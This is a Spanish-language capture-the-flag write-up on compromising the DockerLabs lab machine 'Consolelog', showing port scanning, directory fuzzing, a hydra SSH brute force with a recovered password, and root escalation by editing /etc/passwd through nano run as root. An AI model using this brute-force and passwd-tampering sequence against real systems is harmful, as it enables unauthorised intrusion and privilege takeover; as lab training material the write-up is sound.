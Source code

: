 ```yaml
---
title: Consolelog - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/consolelog/consolelog.png" alt="Captura de pantalla de la máquina Consolelog en DockerLabs">

Hoy explotaremos la máquina *Consolelog* de [DockerLabs](https://dockerlabs.es/), de dificultad Fácil. Vamos a inspeccionar la pagina web para conseguir acceso a un usuario y despues vamos a escalar a root 

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh tproot.tar
[sudo] contraseña para nmc:     

	                    ##        .         
	              ## ## ##       ==         
	           ## ## ## ##      ===         
	       /""""""""""""""""\___/ ===       
	  ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	       \______ o          __/           
	         \    \        __/            
	          \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  
                                         
				     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```



## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-30 22:35 CST
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
3000/tcp open  http    Node.js Express framework
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.65 seconds
```



Nos percatamos de que está abierto el puerto **80** con el servicio **http**, el puerto **5000** con el servicio **ssh**.

## Web

Abriremos la pagina web e inspeccionando el codigo nos percatamos que al pulsar el boton **Boton en fase beta**, la consola nos da un token

<img src="/assets/img/DLabs/consolelog/console.png" alt="Captura de pantalla de la máquina Consolelog en DockerLabs">

## Fuzzing

Hacemos fuzzing para encontrar mas directorios

```bash
➤ gobuster dir -u http://172.17.0.2/ -w /snap/seclists/900/Discovery/Web-Content/common.txt -t 50 --add-slash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /snap/seclists/900/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess/           (Status: 403) [Size: 275]
/.hta/                (Status: 403) [Size: 275]
/.htpasswd/           (Status: 403) [Size: 275]
/backend/             (Status: 200) [Size: 1563]
/icons/               (Status: 403) [Size: 275]
/javascript/          (Status: 403) [Size: 275]
/server-status/       (Status: 403) [Size: 275]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```



Nos concentramos en **/backend/**. Al ingresar al directorio */backend/* podemos observar que tenemos diversos archivos.

<img src="/assets/img/DLabs/consolelog/backend.png" alt="Captura de pantalla de la máquina Consolelog en DockerLabs">

Entre los archivos hay uno que se llama *server.js* el cual parece que este servidor escucha peticiones POST en la ruta */recurso/* y devuelve una contraseña si el token proporcionado es correcto.

<img src="/assets/img/DLabs/consolelog/server.png" alt="Captura de pantalla de la máquina Consolelog en DockerLabs">

## Hydra
 
Ya tenemos una password que parece ser funcional. Ejecutamos **hydra** para obtener un usuario.

```bash
➤ hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas -t 50 ssh://172.17.0.2:5000
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-30 22:40:48
[DATA] max 50 tasks per 1 server, overall 50 tasks, 14344398 login tries (l:14344398/p:1), ~286888 tries per task
[DATA] attacking ssh://172.17.0.2:5000/
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
```



Conseguimos un usuario y ahora nos conectaremos con **ssh** con las credenciales obtenidas

## SSH

```bash
➤ ssh lovely@172.17.0.2 -p 5000
lovely@172.17.0.2's password: 
Linux a3dc06e1fab3 6.8.0-63-generic #66-Ubuntu SMP PREEMPT_DYNAMIC Fri Jun 13 20:25:30 UTC 2025 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lovely@a3dc06e1fab3:~$
```



## Escalada de privilegios

Buscamos archivos con le bit **SUID** activado:

```bash
lovely@a3dc06e1fab3:~$ cd /
lovely@a3dc06e1fab3:/$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/nano
```



Intentamos con **sudo -l**

```bash
lovely@a3dc06e1fab3:/$ sudo -l
Matching Defaults entries for lovely on a3dc06e1fab3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User lovely may run the following commands on a3dc06e1fab3:
    (ALL) NOPASSWD: /usr/bin/nano
```



Con esto en mente revisaremos si solo tenemos al usuario *lovely* o debemos acceder como otro usuario. Revisamos el passwd y podemos observar que hay un usuario más.

```bash
lovely@a3dc06e1fab3:/$ cd /home
lovely@a3dc06e1fab3:/home$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
tester:x:1000:1000::/home/tester:/bin/bash
lovely:x:1001:1001:lovely,,,:/home/lovely:/bin/bash
```



Recordemos que tenemos la capacidad de ejecutar comandos como root usando nano y siendo así podemos editar el archivo passwd y quitarle la x para poder acceder sin credenciales.

```bash
lovely@a3dc06e1fab3:/home$ cd /
lovely@a3dc06e1fab3:/$ ./usr/bin/nano /etc/passwd
```



<img src="/assets/img/DLabs/consolelog/nano.png" alt="Captura de pantalla de la máquina Consolelog en DockerLabs">

Luego de borrar la *x* guardamos los cambios y probamos a cambiar de usuario

```bash
lovely@a3dc06e1fab3:/$ su root
root@a3dc06e1fab3:/# whoami
root
root@a3dc06e1fab3:/#
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
